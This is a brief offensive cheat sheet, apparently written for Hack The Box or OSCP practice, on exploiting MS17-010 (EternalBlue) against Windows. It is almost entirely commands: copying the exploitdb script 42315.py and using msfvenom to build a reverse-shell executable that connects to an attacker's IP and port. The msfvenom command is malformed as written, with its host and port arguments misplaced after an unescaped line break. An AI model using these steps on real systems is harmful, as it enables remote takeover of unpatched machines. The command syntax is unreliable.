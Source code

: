 # MS17-010

## EternalBlue \(zzz\_exploit.py\)

```bash
cp /usr/share/exploitdb/exploits/windows/remote/42315.py .
```

### Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp -f exe \
    -o reverse.exe
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT
```

## References

* [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)
* [https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125](https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125)
* [https://www.reddit.com/r/oscp/comments/9mbarh/ms17010\_for\_all\_os/](https://www.reddit.com/r/oscp/comments/9mbarh/ms17010_for_all_os/)

